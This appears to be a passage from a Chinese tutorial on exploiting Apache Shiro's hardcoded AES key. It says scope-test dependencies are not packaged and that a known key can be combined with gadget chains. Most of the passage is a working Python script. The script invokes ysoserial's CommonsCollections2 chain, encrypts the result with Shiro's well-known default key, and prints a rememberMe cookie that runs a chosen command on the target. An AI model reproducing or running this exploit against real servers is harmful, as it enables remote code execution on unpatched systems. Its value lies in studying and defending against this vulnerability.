 ![image-20230525180021834](images/19.png)

这些scope为test的，在最后打包的时候不会被打包

所以，因为shiro不同版本都是通过硬编码的方式写入AES密钥的，所以我们爆破出密钥的情况下，可以结合Gadgets进行漏洞利用

对于利用，也有很多shiro的利用工具，也可以自己构造payload

```
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command],stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 这里密钥key是已知的，在shiro官网上有,可根据不同系统替换密钥
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme("dir")
    print("rememberMe={0}".format(payload.decode()))
```
